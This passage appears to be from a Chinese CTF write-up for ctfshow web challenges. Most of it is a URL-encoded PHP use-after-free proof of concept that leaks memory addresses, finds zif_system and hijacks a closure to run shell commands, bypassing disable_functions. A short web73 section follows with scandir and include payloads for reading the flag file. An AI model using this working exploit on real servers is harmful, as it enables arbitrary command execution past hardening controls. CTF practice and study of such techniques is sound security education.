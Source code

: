 ```php
0%20%20%20%20%20%20%20if(%24deref%20!%3D%200x786568326e6962)%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20continue%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%7D%20else%20continue%3B%0A%0A%20%20%20%20%20%20%20%20%20%20%20%20return%20%24data_addr%20%2B%20%24i%20*%208%3B%0A%20%20%20%20%20%20%20%20%7D%0A%20%20%20%20%7D%0A%0A%20%20%20%20function%20get_binary_base(%24binary_leak)%20%7B%0A%20%20%20%20%20%20%20%20%24base%20%3D%200%3B%0A%20%20%20%20%20%20%20%20%24start%20%3D%20%24binary_leak%20%26%200xfffffffffffff000%3B%0A%20%20%20%20%20%20%20%20for(%24i%20%3D%200%3B%20%24i%20%3C%200x1000%3B%20%24i%2B%2B)%20%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24addr%20%3D%20%24start%20-%200x1000%20*%20%24i%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24leak%20%3D%20leak(%24addr%2C%200%2C%207)%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20if(%24leak%20%3D%3D%200x10102464c457f)%20%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20return%20%24addr%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%7D%0A%20%20%20%20%20%20%20%20%7D%0A%20%20%20%20%7D%0A%0A%20%20%20%20function%20get_system(%24basic_funcs)%20%7B%0A%20%20%20%20%20%20%20%20%24addr%20%3D%20%24basic_funcs%3B%0A%20%20%20%20%20%20%20%20do%20%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24f_entry%20%3D%20leak(%24addr)%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24f_name%20%3D%20leak(%24f_entry%2C%200%2C%206)%3B%0A%0A%20%20%20%20%20%20%20%20%20%20%20%20if(%24f_name%20%3D%3D%200x6d6574737973)%20%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20return%20leak(%24addr%20%2B%208)%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%7D%0A%20%20%20%20%20%20%20%20%20%20%20%20%24addr%20%2B%3D%200x20%3B%0A%20%20%20%20%20%20%20%20%7D%20while(%24f_entry%20!%3D%200)%3B%0A%20%20%20%20%20%20%20%20return%20false%3B%0A%20%20%20%20%7D%0A%0A%20%20%20%20function%20trigger_uaf(%24arg)%20%7B%0A%0A%20%20%20%20%20%20%20%20%24arg%20%3D%20str_shuffle('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA')%3B%0A%20%20%20%20%20%20%20%20%24vuln%20%3D%20new%20Vuln()%3B%0A%20%20%20%20%20%20%20%20%24vuln-%3Ea%20%3D%20%24arg%3B%0A%20%20%20%20%7D%0A%0A%20%20%20%20if(stristr(PHP_OS%2C%20'WIN'))%20%7B%0A%20%20%20%20%20%20%20%20die('This%20PoC%20is%20for%20*nix%20systems%20only.')%3B%0A%20%20%20%20%7D%0A%0A%20%20%20%20%24n_alloc%20%3D%2010%3B%20%0A%20%20%20%20%24contiguous%20%3D%20%5B%5D%3B%0A%20%20%20%20for(%24i%20%3D%200%3B%20%24i%20%3C%20%24n_alloc%3B%20%24i%2B%2B)%0A%20%20%20%20%20%20%20%20%24contiguous%5B%5D%20%3D%20str_shuffle('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA')%3B%0A%0A%20%20%20%20trigger_uaf('x')%3B%0A%20%20%20%20%24abc%20%3D%20%24backtrace%5B1%5D%5B'args'%5D%5B0%5D%3B%0A%0A%20%20%20%20%24helper%20%3D%20new%20Helper%3B%0A%20%20%20%20%24helper-%3Eb%20%3D%20function%20(%24x)%20%7B%20%7D%3B%0A%0A%20%20%20%20if(strlen(%24abc)%20%3D%3D%2079%20%7C%7C%20strlen(%24abc)%20%3D%3D%200)%20%7B%0A%20%20%20%20%20%20%20%20die(%22UAF%20failed%22)%3B%0A%20%20%20%20%7D%0A%0A%20%20%20%20%24closure_handlers%20%3D%20str2ptr(%24abc%2C%200)%3B%0A%20%20%20%20%24php_heap%20%3D%20str2ptr(%24abc%2C%200x58)%3B%0A%20%20%20%20%24abc_addr%20%3D%20%24php_heap%20-%200xc8%3B%0A%0A%20%20%20%20write(%24abc%2C%200x60%2C%202)%3B%0A%20%20%20%20write(%24abc%2C%200x70%2C%206)%3B%0A%0A%20%20%20%20write(%24abc%2C%200x10%2C%20%24abc_addr%20%2B%200x60)%3B%0A%20%20%20%20write(%24abc%2C%200x18%2C%200xa)%3B%0A%0A%20%20%20%20%24closure_obj%20%3D%20str2ptr(%24abc%2C%200x20)%3B%0A%0A%20%20%20%20%24binary_leak%20%3D%20leak(%24closure_handlers%2C%208)%3B%0A%20%20%20%20if(!(%24base%20%3D%20get_binary_base(%24binary_leak)))%20%7B%0A%20%20%20%20%20%20%20%20die(%22Couldn't%20determine%20binary%20base%20address%22)%3B%0A%20%20%20%20%7D%0A%0A%20%20%20%20if(!(%24elf%20%3D%20parse_elf(%24base)))%20%7B%0A%20%20%20%20%20%20%20%20die(%22Couldn't%20parse%20ELF%20header%22)%3B%0A%20%20%20%20%7D%0A%0A%20%20%20%20if(!(%24basic_funcs%20%3D%20get_basic_funcs(%24base%2C%20%24elf)))%20%7B%0A%20%20%20%20%20%20%20%20die(%22Couldn't%20get%20basic_functions%20address%22)%3B%0A%20%20%20%20%7D%0A%0A%20%20%20%20if(!(%24zif_system%20%3D%20get_system(%24basic_funcs)))%20%7B%0A%20%20%20%20%20%20%20%20die(%22Couldn't%20get%20zif_system%20address%22)%3B%0A%20%20%20%20%7D%0A%0A%0A%20%20%20%20%24fake_obj_offset%20%3D%200xd0%3B%0A%20%20%20%20for(%24i%20%3D%200%3B%20%24i%20%3C%200x110%3B%20%24i%20%2B%3D%208)%20%7B%0A%20%20%20%20%20%20%20%20write(%24abc%2C%20%24fake_obj_offset%20%2B%20%24i%2C%20leak(%24closure_obj%2C%20%24i))%3B%0A%20%20%20%20%7D%0A%0A%20%20%20%20write(%24abc%2C%200x20%2C%20%24abc_addr%20%2B%20%24fake_obj_offset)%3B%0A%20%20%20%20write(%24abc%2C%200xd0%20%2B%200x38%2C%201%2C%204)%3B%20%0A%20%20%20%20write(%24abc%2C%200xd0%20%2B%200x68%2C%20%24zif_system)%3B%20%0A%0A%20%20%20%20(%24helper-%3Eb)(%24cmd)%3B%0A%20%20%20%20exit()%3B%0A%7D%0A%0Actfshow(%22cat%20%2Fflag0.txt%22)%3Bob_end_flush()%3B%0A%3F%3E
```
## web73（突破禁用函数）
这个题不能用上个题的uaf了，老姿势仍然可用，第一步查看根目录文件
c=var_export(scandir('/'));exit();
![image.png](https://cdn.nlark.com/yuque/0/2021/png/23087450/1637905712177-72521d9e-8cba-4513-abed-f168f3dcc0fb.png#clientId=u90c89801-edf6-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=400&id=u169392be&margin=%5Bobject%20Object%5D&name=image.png&originHeight=706&originWidth=1160&originalType=binary&ratio=1&rotation=0&showTitle=false&size=80059&status=done&style=none&taskId=u8cdf9dc2-3e77-41a7-91bb-171b2644f68&title=&width=657)
第二步包含
![image.png](https://cdn.nlark.com/yuque/0/2021/png/23087450/1637905779853-de10e256-7c85-4d76-918a-25906457571b.png#clientId=u90c89801-edf6-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=400&id=uad499b70&margin=%5Bobject%20Object%5D&name=image.png&originHeight=725&originWidth=1141&originalType=binary&ratio=1&rotation=0&showTitle=false&size=71453&status=done&style=none&taskId=u4b717109-ab49-4e22-b77b-e608df41a9a&title=&width=630)
最终payload：c=include('/flagc.txt');exit();
## web74（突破禁用函数）
```php
```
